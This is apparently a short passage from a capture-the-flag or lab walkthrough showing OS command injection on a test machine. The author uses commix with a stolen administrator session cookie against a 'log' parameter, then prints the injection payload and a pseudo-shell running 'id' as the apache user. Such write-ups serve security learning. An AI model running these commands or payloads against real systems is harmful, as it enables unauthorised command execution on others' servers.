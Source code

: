 ## OS command injection

The log name field looks to view the file and add `.txt` extension.

![](uploads/images/seattle-txt.png)

To manipulate this input i'm going to use `commix` but first i need to get the session cookie for administrator

![](uploads/images/seattle-sessioncookie.png)

Commix time

```
# commix -u 'http://192.168.93.173/account.php?log=26NOV2016' --cookie="level=1; lang=GBP; SessionId=4cff8a69eb2824aebd478b9745ba6955"
```

```
[*] Testing the classic injection technique... [ SUCCEED ]
[+] The parameter 'log' seems injectable via (results-based) classic injection technique.
    [~] Payload: ;echo RJLWYX$((44+3))$(echo RJLWYX)RJLWYX

[?] Do you want a Pseudo-Terminal shell? [Y/n/q] > Y

Pseudo-Terminal (type '?' for available options)
commix(os_shell) > id

uid=48(apache) gid=48(apache) groups=48(apache)
```
